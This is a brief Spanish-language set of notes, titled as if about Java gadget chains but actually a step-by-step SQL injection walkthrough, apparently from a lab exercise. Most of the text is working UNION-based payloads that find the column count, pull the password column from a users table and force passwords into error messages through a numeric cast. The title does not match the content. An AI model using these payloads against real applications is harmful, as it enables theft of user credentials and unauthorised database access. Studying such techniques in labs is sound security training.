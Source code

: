 # GadgetChain-Java


1. Compruebo la comilla simple, apostrofe `'`     
2. `1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--` Con null’s hasta comprobar cual no me retorna errores, en este caso 8 null’s pero junto con UNION efectivamente, el 1 es para crear una tabla de consulta.     
3. `' UNION SELECT NULL, NULL, NULL, password, NULL, NULL, NULL, NULL FROM users--` Verificar que se puede seleccionar la columna password de la tabla users e insertarla en el resultado de la consulta original, y en la posición correcta, ya que el orden de las columnas es muy importante.
4. `' UNION SELECT NULL, NULL, NULL, CAST(password AS VARCHAR), NULL, NULL, NULL, NULL FROM users--` Intentar convertir la columna password a VARCHAR, que suele ser el tipo de dato correcto, pero es posible que no nos deje pasar alguna validación de tipo de datos por como se muestra por pantalla.
5. `' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users—` → displays the password in the error message.